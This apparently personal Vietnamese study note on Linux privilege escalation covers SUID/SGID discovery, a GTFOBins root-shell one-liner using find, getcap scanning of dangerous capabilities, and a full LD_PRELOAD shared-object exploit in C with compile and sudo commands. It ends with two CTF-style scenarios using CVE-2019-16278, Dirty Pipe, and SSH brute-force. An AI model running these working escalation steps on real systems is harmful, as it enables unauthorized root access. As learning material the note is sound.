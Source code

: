 # Tài liệu và tool/script tham khảo:

[https://gtfobins.github.io/](https://gtfobins.github.io/)

[https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)

  

---

# Set User ID (SUID)

> [!important] + Là một quyền đặc biệt trên Unix/Linux.<br>+ Khi 1 file thực thi (executable) có SUID bit, người dùng thực thi file đó sẽ có quyền của chủ sở hữu file trong suốt quá trình chạy.<br>+ Dùng SUID cho người dùng bình thường khi cần thực thi, một số tác vụ yêu cầu root nhưng được kiểm soát.

**Ví dụ**: /usr/bin/passwd  
-rwsr-xr-x  
⇒ “**s**” xuất hiện ở cột quyền của user (rws) thể hiện file đã set SUID

  

```Bash
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```

- **Các options**:
    - -4000 : giá trị của bit SUID
    - 2>/dev/null : bỏ qua lỗi permission denied

```Bash
find / -user root -perm -2000 -exec ls -ldb {} \; 2>/dev/null
```

- **Các options**:
    - -2000 : giá trị của bit SGID
    - 2>/dev/null : bỏ qua lỗi permission denied

> Lợi dụng SUID và SGID để leo thang đặc quyền

> [!important] + Nếu một binary như find, nano, vim, bash, python, ... có SUID ta có thể tận dụng chức năng nó để thực thi shell với quyền root.<br>+ Sử dụng [GTFOBins](https://gtfobins.github.io/).

**Ví dụ**:

```Bash
ls -l /usr/bin/find
```

\#Giả sử có SUID: -rwsr-xr-x  
\#Nhập:

```Bash
./find . -exec /bin/sh -p \; -quit
```

> **Giải thích**: **-p** giúp giữ lại UID của người sở hữu file thực thi ⇒ Lên được root

---

# Linux Capabilities

> [!important] + Chia nhỏ root thành các quyền riêng biệt, chỉ cấp đúng quyền chương trình cần.<br>+ Ví dụ: ping không cần root, chỉ cần cap_net_raw

## Cấu trúc

> [!important] Cấu trúc mỗi file (hoặc tiến trình) có 3 bộ capabilities:

### Permitted(**p**)

Danh sách capabilities mà tiến trình được phép dùng.

Nếu capability không nằm trong **p** thì tiến trình tuyệt đối không được phép dùng capability đó dù bằng cách nào.

### Effective(e)

Danh sách capabilities hiện đang được kích hoạt và có hiệu lực. Nếu capability chỉ nằm trong **p** mà không nằm trong **e** thì được phép có nhưng chưa được dùng.

### Inheritable(i)

Danh sách capabilities có thể truyền sang tiến trình con (ít gặp hơn).

## Quét capability

```Bash
getcap -r /2>/dev/null
```

```Bash
getcap -r /2>/dev/null | grep -E 'cap_(sys_admin|dac_override|setuid|setgid)'
```

> **Lưu ý**: Có thể cần phải whereis getcap rồi dùng path mới chạy command được.

### Một số capability nguy hiểm có thể exploit

- cap_sys_admin : làm được mọi thứ
- cap_dac_override : bỏ qua mọi permission checking (read, exec file, ...)
- cap_setuid / cap_setgid : chuyển UID, GID ⇒ leo thang
- cap_net_raw : gửi packet (sniff, spoof)
- cap_sys_module : load kernel module

---

# Shared Libraries và leo thang đặc quyền qua LD_PRELOAD

> [!important] Cách khai thác: user thường ⇒ kiểm tra sudo -l ⇒ phát hiện quyền chạy binary nào đó (no passwd) ⇒ phát hiện LD_PRELOAD ⇒ Viết mã C ⇒ Chạy sudo LD_PRELOAD=/tmp/es.co/binary ⇒ Lên root

> [!important] Shared Libraries là những đoạn mã được biên dịch sẵn mà nhiều chương trình có thể dùng lại thay vì viết lại từ đầu.

**Có 2 loại**:

- Static libary (.a) : gộp trực tiếp vào binary khi biên dịch.
- Shared library (.so) : được load khi chương trình chạy.

Muốn xem một chương trình cần libary nào ⇒

```Bash
ldd /bin/ping
```

  

> [!important] LD_PRELOAD là biến môi trường đặc biệt trong Linux. Nó sẽ ép hệ thống load thư viện mà ta chỉ định của chương trình. Cho phép ta override lên các hàm hệ thống như getuid(); system(); …

> [!important] Cách khai thác: giả sử ta là user thường, có quyền chạy binary nào đó bằng sudo, không yêu cầu mật khẩu:

```Bash
sudo -l
```

```Bash
(ALL) NOPASSWD: /usr/local/bin/sys_backup
```

⇒ /usr/local/bin/sys_backup không là SUID, không thuộc GTFOBins nên không khai thác trực tiếp được.

Tuy nhiên, ta thấy:

```Bash
env_keep+=LD_PRELOAD
```

⇒ Lỗ hỏng.

**Các bước khai thác**:

+ Bước 1: Viết chương trình C:

```C
\#include <stdio.h>
\#include <stdlib.h>
\#include <sys/types.h>

void_init() {
	unsetenv("LD_PRELOAD");
	setresuid(0, 0, 0);
	system("/bin/bash -p");
}
```

⇒ Dùng init() để Shared Libraries load bằng LD_PRELOAD thì hàm _init() chạy đầu tiên.

+ Bước 2: Compile code thành shared object (.so)

```Bash
gcc -fPIC -shared -nostartfiles -o /tmp/escalate.so escalate.c
```

> **Giải thích**: -fPIC dùng để tạo mã máy không phụ thuộc vào địa chỉ cố định trên bộ nhớ. Vì .so có thể load cùng nhiều process khác nhau tại các vị trí khác nhau. Nếu không có -fPIC thì thư viện có thể bị crash.  
> -shared : tạo ra moọt .so thay vì .out hoặc ELF binary.  
> -nostartfiles : chỉ định gcc không thêm bất kỳ starup files nào vào chương trình. Nó sẽ tạo các file như: _start, crt1.0, … để khởi tạo môi trường trước khi gọi main(); nhưng ta không cần main() mà chỉ cần _init().

+ Bước 3: Gọi binary được cấp quyền bằng LD_PRELOAD:

```Bash
sudo LD_PRELOAD=/tmp/escalte.so /usr/local/bin/sys_backup
```

⇒ Lấy được root

---

# Một ví dụ khai thác thực tế:

## Tình huống 1:

Quét nmap thì tra ra được nostromo 1.9.6, OSINT ta biết CVE-2019-16278 nên ta sẽ khai thác được 1 chút và vào được shell của một user có giới hạn.

Giờ ta leo thang bằng cách uname -a thì tra được version kernel là 5.11.051100-generic thì có lỗi là CVE-2022-0847. Vào github thì có cả file sẵn để khai thác. Điều hướng cd/tmp (vì các khu vực khác ta không có quyền đọc/ghi). Tạo một python3 -m http.server 8080 để mở một server cho phép wget trên target machine.

Ta biên dịch ra:

```Bash
gcc exploit -2.c -o exploit -2
```

Ta có thể check SUID, dù không có trên GTFOBins nhưng vẫn có thể:

```Bash
./exploit-2 /usr/bin/su
```

⇒ **Root**

## Tình huống 2:

Quét nmap tra được ssh, brute-force rồi kiểm tra capabilities thì thấy python3.9 có +ep, ta kiểm tra GTFOBins ⇒ **Root**